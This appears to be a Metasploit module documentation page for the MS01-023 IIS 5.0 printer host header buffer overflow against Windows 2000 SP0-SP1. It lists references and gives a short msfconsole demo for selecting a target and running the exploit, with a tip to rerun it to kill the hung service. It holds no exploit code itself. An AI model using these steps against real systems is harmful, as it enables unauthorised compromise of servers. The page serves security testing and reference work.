 ## MS01-023 Microsoft IIS 5.0 Printer Host Header Overflow

This exploits a buffer overflow in the request processor of 
the Internet Printing Protocol ISAPI module in IIS. This 
module works against Windows 2000 service pack 0 and 1. If 
the service stops responding after a successful compromise, 
run the exploit a couple more times to completely kill the 
hung process.


## Module Name
exploit/windows/iis/ms01_023_printer

## Authors
* hdm


## References
* http://cvedetails.com/cve/2001-0241/
* http://www.osvdb.org/3323
* http://www.securityfocus.com/bid/2674
* http://technet.microsoft.com/en-us/security/bulletin/MS01-023
* http://seclists.org/lists/bugtraq/2001/May/0005.html



## Targets
* Windows 2000 English SP0-SP1


## Platforms
win

## Reliability
[Good](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/windows/iis/ms01_023_printer
msf exploit(ms01_023_printer) > show targets
   ... a list of targets ...
msf exploit(ms01_023_printer) > set TARGET <target-id>
msf exploit(ms01_023_printer) > show options
   ... show and set options ...
msf exploit(ms01_023_printer) > run
```
    
    